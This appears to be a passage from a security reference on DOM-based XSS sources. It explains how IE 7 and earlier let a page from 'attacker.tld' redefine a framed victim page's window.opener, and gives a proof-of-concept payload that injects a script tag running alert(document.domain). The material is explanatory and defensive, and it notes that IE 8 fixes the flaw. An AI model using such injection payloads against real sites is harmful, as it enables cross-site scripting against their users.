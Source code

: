 (TBA)

 * `opener` (IE <= 7 Only)
 * parent/top/frames`[i]`.obj
 * `event.data` of `onmessage` event for postMessage method


## Opener
In 2008 in [#References [[3]]] it was presented a study about Browser Based DOM Xss, describing how browsers behave when objects belonging to different windows and domains are overwritten or deleted from evil pages.

It was found that IE <= 7 allows cross windows/cross domain opener redefinition, causing the re-instantiation of the object in the other window thus breaking the SOP in access control.

```javascript
// From attacker.tld
window.aFrame.location="http://victim/PageUsingOpenerObject.html"
window.aFrame.opener={someAttr:"someValue", someAttr2: function(){return someReturnValue}}
```

So if a page from victim host uses:
```
<script>
document.writeln("<p>" + window.opener.Message + "</p>");
</script>
```

An attacker can use from ```<iframe name=aFrame></iframe>```
```
// From attacker.tld
window.aFrame.location="http://victim/PageUsingOpenerObject.html"
window.aFrame.opener={Message:"<sc"+"ript>alert(document.domain)</scr"+"ipt>"}
```

The code above works perfectly on IE7 and the fake Message is taken by victim host, without any error message.

Opener object can, hence, be considered as a source of untrusted input in the unfortunate case the victim uses IE 7.

N.B. IE 8 fixes this issue.
